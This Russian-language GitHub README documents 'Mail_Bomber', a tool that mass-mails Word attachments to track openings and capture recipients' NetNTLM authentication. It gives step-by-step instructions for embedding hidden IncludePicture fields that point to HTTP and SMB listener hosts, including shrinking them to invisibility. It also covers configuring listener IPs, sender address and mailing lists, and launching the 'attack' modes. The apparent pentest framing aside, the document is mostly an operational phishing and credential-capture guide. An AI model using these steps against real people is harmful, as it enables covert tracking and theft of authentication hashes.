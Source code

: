 # Mail_Bomber

Программное средство для осуществления почтовых рассылок специально подготовленных сообщений с вложением (файл расширения .docx) с целью установления фактов открытия приложенных файлов, а также попытки захвата NetNTLM-аутентификации.

## 1. Установка

```bash
git clone https://github.com/KormilitsinES/Mail_Bomber.git

cd Mail_Bomber

python -m venv .
source bin/activate

python -m pip install -r requirements.txt
```

## 2. Подготовка шаблона template.docx

Для корректной работы программы вначале необходимо подготовить шаблон текстового файла формата .docx.
В дальнейшем, на основании него будут генерироваться почтовые вложения для последующей отправки согласно списка рассылки.

В текстовом редакторе "Microsoft Word" создаем новый документ.

![image](https://github.com/user-attachments/assets/2ddb2d26-3019-4af9-8f8c-360aa43acdca)

Текстовка и форматироние файла заполняются произвольно исходя из целевой организации.
<b>Самое важное на данном этапе</b>, перед сохранением шаблона в произвольное место документа вставить два экспресс блока.

![image](https://github.com/user-attachments/assets/ef3edd6f-ae55-4e52-a270-cf6feb2a8753)

В качестве категории вставляемого поля выбираем <b>"Связи и ссылки"</b>. Поле - <b>IncludePicture</b>.
В первом случае в свойстве поля задаем значение вида: 
```bash
http://HONEYDROP_TOKEN_URL
```

Во втором объекте указываем: 
```bash
\\HONEYDROP_TOKEN_SMB
```

<i>На этом этапе важно не ошибиться, т.к. при последующей генерации почтовых сообщений в шаблоне template.docx будет осуществляться 
поиск строк <b>HONEYDROP_TOKEN_URL</b>, <b>HONEYDROP_TOKEN_SMB</b> и их замена на соответствующие значения для каждого вложения.</i>

![image](https://github.com/user-attachments/assets/868cba9c-6c6f-44dc-b375-6b04d22df532)

![image](https://github.com/user-attachments/assets/136b34a2-83f8-46bf-afd2-eadce1f65d07)

После того, как экспресс блоки добавлены в документ, необходимо сделать их <b>"невидимыми"</b>.
Для этого кликаем правой кнопкой мыши по объекту и переходим в формат рисунка в раздел <b>"Размер"</b>.

Ширину и высоту рисунка выставляем равной 1 сотой сантиметра и применяем изменения.

![image](https://github.com/user-attachments/assets/7152948b-fd7e-4d15-b6fc-d3bd34ca0528)

Шаблон документа готов, можно переходить к следующему этапу.

## 3. Редактирование конфигурационного файла

Для корректной работы программы необходимо наличие правильно заполненного конфигурационного файла.

Пример заполненного конфига с пояснениями:
```bash
[WORKSPACE]
;количество потоков, задействованных при отправке почтовых сообщений (1 - 16)
WORKSPACE_THREADS = 8

;наименование Рабочей области (название организации в отношении которой осуществляем почтовую рассылку)
WORKSPACE_NAME = bratishki

;имя файла с результатом работы программы (без расширения)
WORKSPACE_REPORT_FILENAME = report

;общее имя файла вложения, которое будет отправлено в почтовом сообщении (без расширения)
WORKSPACE_PAYLOAD_FILENAME = declaration

;имя файла шаблона на основании которого будут подготовлены вложения для почтовых сообщений (без расширения)
WORKSPACE_TEMPLATE_FILENAME = template



[MAIL_SERVER]
;IP-адрес почтового сервера в отношении которого будет осуществлена почтовая рассылка
MAIL_SERVER_IP = 127.0.0.1
MAIL_SERVER_PORT = 1025
MAIL_SERVER_USERNAME =
MAIL_SERVER_PASSWORD =



[SENDER]
;почтовый адрес от чьего имени осуществляем рассылку подготовленных вложений
SENDER_EMAIL = pentest@gmail.com



[HTTP_LISTENER]
;IP-адрес и TCP-порт узла к которому будет отправлен HTTP-запрос в случае открытия почтового вложения
HTTP_LISTENER_IP = 10.1.1.1
HTTP_LISTENER_PORT = 8080



[SMB_LISTENER]
;IP-адрес и наименование файловой шары узла к которому будет отправлен SMB-запрос в случае открытия почтового вложения
SMB_LISTENER_IP = 10.1.1.1
SMB_LISTENER_SHARENAME = SHARE



[MAIL]
;тема и тело почтового сообщения
MAIL_SUBJECT = Subject
MAIL_DATA = Simple text to
    data message from config file...
```

## 4. Заполнение файла почтовых адресов для рассылки

Последним этапом перед запуском программы является заполнение списка почтовых адресов для отправки текстовых вложений.
Каждый адрес указывается с новой строки.
Перед генерацией полезной нагрузки и непосредственной отправкой сообщения осуществляется верификация почтового адреса по регулярному выражению.

![image](https://github.com/user-attachments/assets/5f863c89-b067-43bd-a92d-3a2d3708090b)

## 5. Первый запуск

Для вывода справки по программе.
```bash
python Mail_Bomber.py -h
```

![image](https://github.com/user-attachments/assets/41b1f9ae-0654-45fd-b99e-55074dbb123e)

Если конфигурационный файл и список рассылки имеют имена config.ini и emails_list.txt (соответственно) и лежат рядом с Mail_Bomber.py, то для запуска программы достаточно указать только режим атаки (--attack_mode 1, -a 1).
В этом режиме произойдет генерация почтовых вложений, отправка сообщений согласно списка рассылки и будет запущен слушатель входящих HTTP-запросов.
```bash
python Mail_Bomber.pu -a 1
```

![image](https://github.com/user-attachments/assets/4fd01592-86d8-43e5-82d4-b692903359d7)

![image](https://github.com/user-attachments/assets/29af054d-0cd6-4611-bc6a-84fe085715fc)

При открытии почтового вложения слушатель примет входящий HTTP-запрос и выведет соответствующую информацию в консоль.

![image](https://github.com/user-attachments/assets/5c8bd24a-ccdf-4f21-825e-54cca98b6ba5)

## 6. Запуск в режиме приема входящих HTTP-запросов

Если по каким-то причинам необходимо заново запустить только слушателя без повторной отправки почтовых сообщений, то необходимо указать в качестве attack_mode значение 2.
```bash
python Mail_Bomber.pu -a 2
```

![image](https://github.com/user-attachments/assets/89f1d2da-135c-4967-9e17-b366e44ce42c)

## 7. Генерация отчета

Результаты работы программы сохраняются в файле БД SQLite (result.db) в домашней дирректории проекта.
Для построения отчета о работе Mail_Bomber необходимо запустить программу с указанием attack_mode 3.

```bash
python Mail_Bomber.pu -a 3
```

![image](https://github.com/user-attachments/assets/ab0f90cd-7fbe-416c-b421-ab0eeaaed3a7)

Отчет сохраняется в формате html и доступен для чтения с использованием любого браузера.

![image](https://github.com/user-attachments/assets/9d9f6a39-f9c9-45a8-8c09-1ebcfc10d1d5)
